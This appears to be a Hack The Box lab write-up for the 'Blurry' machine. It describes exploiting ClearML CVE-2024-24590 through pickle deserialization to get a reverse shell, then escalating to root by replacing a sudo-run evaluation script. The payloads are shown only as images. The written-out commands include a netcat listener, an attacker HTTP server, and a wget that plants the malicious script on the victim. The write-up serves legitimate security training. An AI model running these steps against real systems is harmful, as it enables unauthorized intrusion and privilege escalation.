 # Blurry Writeup

# Intro
Blurry is an interesting HTB machine where you will leverage the CVE 2024-24590 exploit to pop a reverse shell in order to escalate your privlages within the local network. This box uses ClearML, an open-source machine learning platform that allows its users to streamline the machine learning lifecycle. ClearML is used by many Data Engineers and Data Scientist.

Below you can find of the tools that I used to complete this challenge
1. Kali Linux: An operating system that specializes in penetration testing.
2. Nmap: An open-source toolf for network exploration, along with security auditing
3. Clearml python libraries: These libraries are used to interact with th open-source ClearML that we plan to hack into. I will go more into these libraries within the writeup.

I will go into detail regarding the steps taken. First we will go over the initial reconnaissance, identifying avenues of exploitation, exploitation foothold, then post exploitation.

### Initial Reconnisance
As with any initial penetration test, we will start with a nmap scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -v -sV -sC -p- 10.10.11.19                               
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-favicon: Unknown favicon MD5: 2CBD65DC962D5BF762BCB815CBD5EFCC
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: ClearML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

}
```

We see that we have ports 22 and 80 open. Also that that it is a Linux machine. To get more info, we will visit the page at blurry.htb or 10.10.11.19 within the web browser.


![appblurryhtb login](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/bf5b7bc6-a7f4-4fb8-ba1f-4367812385b5)


Here we are able to make a user name of our choosing and log into ClearML. You will be greated with a page regarding instructions of how to use clear ML along with creating your own credentials.

To do so, we will need to pip install the clearml libraries via the instrictions below.

![credentials](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/a2029720-dcc0-4de9-ae8a-5b35b59ee2af)



One thing to note, to be sure that the libaries are installed correctly, I ran a pip install command on the following:

```bash
pip install clearml
pip install clearml-init
pip install clearml-agent

}
```
For some reason the origional pip isntall ClearML did not properly install the clearml-init and clearml-agent for me. If you run into issues, I reccommend retying to pip install these.


### Avenues of Exploitation

After playing around with the website, and researching, I found that ClearML has a vulnerability (CVE2024-24590). This vulnerability can allow a user to run commands via the pickle python library.

The pickle library is used by many python users. The uses range from data transfer, saving a program state, or caching. From my experience as a data analyst/data scientist, the pickle library has many uses.

However in this case, we will use it as an exploit. Below is the python payload that I used.

![python payload CVE 2024 24590](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/04e406a0-42c0-40dc-8ff7-d8e9b33adcec)


### Exploitation Foothold

After the payload is created, we will run the the following command. This will start the ClearML agent to upload our malicious code to the ClearML site.

```bash
clearml-agent daemon --queue default
}
```

After this is ran, we will set up a listener (I put my listener on port 4444)

```bash
nc -lvnp 4444
}
```

Then execute the python payload

```bash
python3 <your python file payload>.py
```

NOTE: At least in my case, it took a while for me to establish a connection. I recommend getting a cup of coffee and coming back. After, you should see that we that we have a reverse shell.

![reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/b403c153-9b87-4527-9fc2-e7547d2e6af2)


### Post Exploitation

Now we are in the system and gained a foothold. It is good practice to see who we are, and if the user we are logged into has any root permissions. 

As seen below, we are the user jippity and they are able to run sudo privilages on the file path /user/bin/evaluate_model /models/*.pth. This means that we are able to run sudo level commands in this directory.

Before we do that, we can explore the directory to find the user flag. You should be able to find pretty easily as you navigate through the user files.

![userflag](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/721c2932-9a6a-49d3-b8e3-6ba81fed24ee)


After we get the userflag, our next target is the root flag. Since we know that the user we are logged in as (jippity) has sudo privlages specified in the file path above, we can navigate to the /models directory and see what is in there.

As we will see, they have two files, one being a demo_model.pth and a evaluate_model.py. Since we know that we can run sudo privlages, we can create a malicious python script to execute in order to excalate our privlages. We will do this by popping a reverse shell. Below is the python script I created in order to do so.

![evaluate_model python reverseshell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/736ec370-0133-4e3e-85f4-0fa073cd456a)


I named this file evaluate_model.py. The reason why is because we are tricking the system into thinking that it is running the origional evaluate_model.py that is within the /models directory. However, it will be running the code above instead.

After we created our second payload, we will remove the origional evaluate_model.py
```bash
rm /models/evaluate_model.py
```

Once that is removed, we will set up a simple python server on our attacking machine to upload the malicious python file.

```bash
python -m http.server <port of your choosing>
```

Then we will use wget to upload the file within the victim machine in the /models directory. NOTE: In your attacking machine, you will need to be in the directory where you ahve your malicious python file is.

```bash
wget http://<your ip>:<your port>/<malicious.py> -O evaluate_model.py
```

After, we should see that the script was succesfully uploaded. Now we will set up a netcat listener

![reverse shell root](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/3ce4a8bf-1a75-4f22-995e-22613e9743ba)



Now we will execute the scriptwithin the models directory with the following command.

```bash
sudo /usr/bin/evaluate_model /models*.pth
```
![sudo command](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/2d580148-49a5-4d90-bf4f-81d8fdfb8355)

At last we are logged in as root.

![root reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ceb961b6-bf77-400c-b644-eec87db80749)

From here, we can explore directories as root and we can cat the root.txt file to get the root flag.

![rooted](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7f4a980e-eb49-4cce-9106-518bd9062457)







